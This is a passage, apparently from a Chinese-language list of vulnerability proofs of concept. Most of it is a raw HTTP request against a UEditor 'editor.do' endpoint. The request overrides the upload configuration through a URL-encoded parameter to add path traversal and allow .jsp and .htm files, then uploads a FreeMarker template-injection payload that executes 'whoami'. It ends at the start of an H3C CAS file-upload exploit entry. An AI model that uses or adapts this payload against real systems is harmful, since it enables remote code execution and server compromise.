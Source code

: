 <table><tbody><tr><td width="557" valign="top" style="word-break: break-all;"><section style="line-height: normal;"><span style="font-size: 12px;">POST /static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig=%7b%76%69%64%65%6f%55%72%6c%50%72%65%66%69%78%3a%27%27%2c%66%69%6c%65%4d%61%6e%61%67%65%72%4c%69%73%74%50%61%74%68%3a%27%27%2c%69%6d%61%67%65%4d%61%78%53%69%7a%65%3a%32%30%34%38%30%30%30%30%30%2c%76%69%64%65%6f%4d%61%78%53%69%7a%65%3a%32%30%34%38%30%30%30%30%30%2c%66%69%6c%65%4d%61%78%53%69%7a%65%3a%32%30%34%38%30%30%30%30%30%2c%66%69%6c%65%55%72%6c%50%72%65%66%69%78%3a%27%27%2c%69%6d%61%67%65%55%72%6c%50%72%65%66%69%78%3a%27%27%2c%69%6d%61%67%65%50%61%74%68%46%6f%72%6d%61%74%3a%27%2f%7b%5c%75%30%30%32%45%5c%75%30%30%32%45%5c%75%30%30%32%46%7d%7b%74%65%6d%70%6c%61%74%65%2f%31%2f%64%65%66%61%75%6c%74%2f%7d%7b%74%69%6d%65%7d%27%2c%66%69%6c%65%50%61%74%68%46%6f%72%6d%61%74%3a%27%2f%75%70%6c%6f%61%64%2f%31%2f%63%6d%73%2f%63%6f%6e%74%65%6e%74%2f%65%64%69%74%6f%72%2f%7b%74%69%6d%65%7d%27%2c%76%69%64%65%6f%50%61%74%68%46%6f%72%6d%61%74%3a%27%2f%75%70%6c%6f%61%64%2f%31%2f%63%6d%73%2f%63%6f%6e%74%65%6e%74%2f%65%64%69%74%6f%72%2f%7b%74%69%6d%65%7d%27%2c%22%69%6d%61%67%65%41%6c%6c%6f%77%46%69%6c%65%73%22%3a%5b%22%2e%70%6e%67%22%2c%20%22%2e%6a%70%67%22%2c%20%22%2e%6a%70%65%67%22%2c%20%22%2e%6a%73%70%78%22%2c%20%22%2e%6a%73%70%22%2c%22%2e%68%74%6d%22%5d%7d%0a&amp;action=uploadimage HTTP/1.1  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">User-Agent: xxx  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept: \*/\*  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Postman-Token: bb71767c-7223-4ba3-8151-c81b8a5dc1ec  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Host: 127.0.0.1:8080  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept-Encoding: gzip, deflate  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Connection: close  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Type: multipart/form-data; boundary=--------------------------583450229485407027180070  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Length: 279  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">----------------------------583450229485407027180070  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Disposition: form-data; name=&#34;upload&#34;; filename=&#34;1.htm&#34;  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Type: image/png  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">&lt;#assign ex=&#34;freemarker.template.utility.Execute&#34;?new()&gt; ${ ex(&#34;whoami&#34;) }  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">----------------------------583450229485407027180070--  </span></section></td></tr></tbody></table>  
13.H3C-CAS管理平台文件上传漏洞  
  
访问/cas/fileUpload/upload接口  
  
poc（有两种上传方式）：  